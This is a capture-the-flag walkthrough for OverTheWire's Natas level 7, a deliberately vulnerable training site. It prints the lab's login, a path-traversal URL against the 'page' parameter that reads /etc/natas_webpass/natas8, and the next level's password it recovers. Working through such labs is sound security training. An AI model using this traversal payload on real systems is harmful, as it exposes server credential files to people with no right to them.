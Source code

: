 # Natas Level 7
The ***URL*** to which you need to connect is *http://natas7.natas.labs.overthewire.org*. The ***username*** is *natas7* and the ***password*** is *7z3hEENjQtflzgnT29q7wAvMNfZdh0i9*. 

Lets check the [Home](http://natas7.natas.labs.overthewire.org/index.php?page=home) page and the [About](http://natas7.natas.labs.overthewire.org/index.php?page=about) page. We see that the variable "?page" change whenever we go to a subsite.

So RFI / LFI exploits are possible.

Lets check the viewsource of the website :
```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```
So we now know that the server is hosted on a unix / linux server we can do something like this:
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../etc/natas_webpass/natas8
```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 
```

